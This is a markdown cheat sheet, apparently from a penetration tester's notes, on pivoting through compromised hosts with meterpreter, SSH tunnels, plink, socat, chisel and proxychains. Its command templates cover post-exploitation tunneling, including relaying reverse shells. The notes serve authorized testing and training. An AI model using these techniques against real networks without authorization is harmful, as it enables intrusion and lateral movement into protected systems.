 ```yaml
---
layout: default
title: Pivoting
tags:
    - chisel
    - meterpreter
    - proxychains
    - ssh
    - tunneling
---
```

# Pivoting
## Metasploit
### Port forwarding
With meterpreter session on dual homed machine
```shell
portfwd add -l [LOCAL PORT] -p [TARGET PORT] -r [TARGET IP]  # Add port forwarding
```
- `-R` for reverse

```shell
portfwd delete -l [LOCAL PORT] -p [TARGET PORT] -r [TARGET IP]  # Delete specific forwarding
portfwd list                                                    # List
portfwd flush                                                   # Delete all forwardings
```

### Dynamic forwarding
With meterpreter session on dual homed machine
```shell
run autoroute -s [TARGET SUBNET]         # Adds route for [TARGET SUBNET]
run autoroute -p                         # Show active routes
route                                    # View accessible networks
route add 10.10.10.0 255.255.255.0 1     # Add route to 10.10.10.0/24 via session 1
route delete 10.10.10.0 255.255.255.0 1  # Delete specific route
route flush                              # Delete all routes
```

## SSH Tunneling
From within SSH session `~C` to access options, otherwise restructure as `ssh [TUNNELING COMMANDS] user@10.10.10.10`

### Local forwarding
```shell
-L [LOCAL PORT]:[TARGET IP]:[REMOTE PORT]
```
- Forwards a local port to a remote `ip:port`

![local forwarding](../ssh-local.png)

![local forwarding](../ssh-local2.png)
- see references

### Remote forwarding
```shell
-R [REMOTE PORT]:[TARGET IP]:[TARGET PORT]
```
- Forwards a remote port to a `ip:port` reachable by you (may be `localhost`)

![remote forwarding](../ssh-remote.png)

![remote forwarding](../ssh-remote2.png)

### SSH from remote to local machine
If you don't have an SSH session, create an SSH session with your machine
- Create local user
```shell
useradd -M pentest  # no home directory
usermod -L pentest  # lock account
usermod -s /bin/false pentest  # set shell to /bin/false
service ssh start
```
- Open SSH session from remote host 
```shell
ssh -R [REMOTE PORT]:[TARGET IP]:[KALI PORT] pentest@10.10.10.10
```

## Plink (PuTTY Link)
Locally
```shell
service ssh start
```
- Transfer `/usr/share/windows-binaries/plink.exe` to target

Remotely
```shell
plink.exe [SSH IP] -P 22 -C -N -L [LOCAL PORT]:[TARGET IP]:[REMOTE PORT] -l user -pw pass   # Local
plink.exe [SSH IP] -P 22 -C -N -R [REMOTE PORT]:[TARGET IP]:[TARGET PORT] -l user -pw pass  # Remote
```

## SOCAT (Linux)
On dual-homed host
```shell
socat TCP4-LISTEN:[LOCAL PORT],fork TCP4:[TARGET IP]:[TARGET PORT]
```
- Forwards `[LOCAL PORT]` to `[TARGET IP]:[TARGET PORT]`

## Chisel
SSH, but reversed; you are the Chisel server and the remote host is the client

### Local Pivot
- Remote port (client) → local port (server)
- We are listening (we are the server)
- Useful for forwarding reverse shells from remote host to our machine

Run locally (server)
```shell
chisel server -p [LISTEN PORT]
```

Run remotely (client)
```shell
chisel client [SERVER IP]:[SERVER PORT] [TUNNEL LISTEN PORT ON CLIENT]:[TUNNEL TARGET]:[TUNNEL PORT]
```

### Reverse Pivot
- Local port (server) → remote port (client)
- We are listening (we are the server)
- Useful for reaching machines through a remote host

Run locally (server)
```shell
chisel server -p [LISTEN PORT] -reverse
```

Run remotely (client)
```shell
chisel client [SERVER IP]:[SERVER PORT] R:[TUNNEL LISTEN PORT ON SERVER]:[TUNNEL TARGET]:[TUNNEL PORT]
```

## ProxyChains
Configure `/etc/proxychains.conf` to use a SOCKS5 proxy
```shell
socks5 127.0.0.1 1080
```
Run commands through proxychains
```shell
proxychains nmap -Pn -sT ...
```

## References
- <https://raw.githubusercontent.com/21y4d/Notes/master/Pivoting.txt>
- <https://www.bogotobogo.com/Linux/linux_Secure_Shell_SSH_V_ssh_Reverse_SSH_Tunnel_Remote_Port_Forwarding.php>
    - All credit for SSH tunelling diagrams goes here; they are simply too good to pass up
- <https://www.youtube.com/watch?v=Yp4oxoQIBAM>
- <https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/>